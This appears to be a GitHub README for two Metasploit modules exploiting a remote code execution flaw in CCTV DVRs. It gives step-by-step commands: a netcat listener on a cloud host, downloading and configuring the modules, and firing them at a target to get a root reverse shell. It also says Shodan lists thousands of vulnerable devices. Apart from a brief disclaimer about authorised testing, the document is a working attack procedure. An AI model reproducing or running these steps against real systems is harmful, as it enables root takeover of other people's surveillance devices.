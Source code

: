 # CCTV-Remote-Code-Execution-Metasploit-Module


This code is adapted from the genius Rotem Kerner's python exploit into 2 metasploit modules to allow for easy pen testing of systems that utilise CCTV DVR's. If you go onto shodan.io and type in Cross Web Server, there are thousands of vulnerable CCTV DVR web hosts, many of them presumably already exploited. This exploit should only be used for ethical, legal and authorised penetration tests.

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html

Instructions for Use:

Set up a cloud host or web facing IP.

**Step 1:**

On this cloud host type
```
nc -l 666
```
On another host, or the same host in another window (making sure metasploit is installed)

**Step 1:**
```
cd /usr/share/metasploit-framework/modules/exploits/linux/http
```
**Step 2:**
```
 wget https://github.com/freddiebarrsmith/CCTV-Remote-Code-Execution-Metasploit-Module/archive/master.zip && unzip -j master.zip 
```
**Step 3:**

edit the line containing host = "192.168.0.1" inside CCTV_DVRwrite.rb to be the ip of your cloud host

**Step 4:**

type 

```
msfconsole
```
**Step 5:**

```
use exploit/linux/http/CCTV_DVRwrite 
set RHOST yourtargethost.com
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part) 

**Step 6:**

```
use exploit/linux/http/CCTV_DVRrun 
set RHOST yourtargethost.com 
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part)

**Step 7:**

go back to your cloud or web-facing ip netcat session and type in:
```
whoami
```

to get the answer

root

if the exploit executed succesfully
